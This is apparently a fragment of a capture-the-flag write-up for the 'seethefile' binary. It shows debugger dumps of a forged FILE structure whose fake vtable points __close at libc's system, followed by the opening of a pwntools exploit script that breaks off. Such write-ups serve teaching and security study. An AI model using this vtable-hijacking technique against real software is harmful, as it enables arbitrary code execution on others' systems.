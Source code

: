 ```python
    _old_offset = 0x0, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x804b270 <name+16>, 
    _offset = 0x0, 
    _codecvt = 0x0, 
    _wide_data = 0x0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = '\000' <repeats 39 times>
  }, 
  vtable = 0x804b2b4
}
```
vtable：
```python
gef➤   p *((struct _IO_jump_t*)0x804b2b4)  
$9 = {
  __dummy = 0x0, 
  __dummy2 = 0x0, 
  __finish = 0x0, 
  __overflow = 0x0, 
  __underflow = 0x0, 
  __uflow = 0x0, 
  __pbackfail = 0x0, 
  __xsputn = 0x0, 
  __xsgetn = 0x0, 
  __seekoff = 0x0, 
  __seekpos = 0x0, 
  __setbuf = 0x0, 
  __sync = 0x0, 
  __doallocate = 0x0, 
  __read = 0x0, 
  __write = 0x0, 
  __seek = 0x804b2b4, 
  __close = 0xf7e24da0 <__libc_system>, 
  __stat = 0x0, 
  __showmanyc = 0x0, 
  __imbue = 0x0
}
gef➤  

```
payload
```python
from pwn import *

binary = './seethefile'
elf = ELF(binary)
libc = elf.libc

io = process(binary)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def menu(idx):
    io.recvuntil(':')
    io.sendline(str(idx))

def leave_name(nm):
    menu(5)
```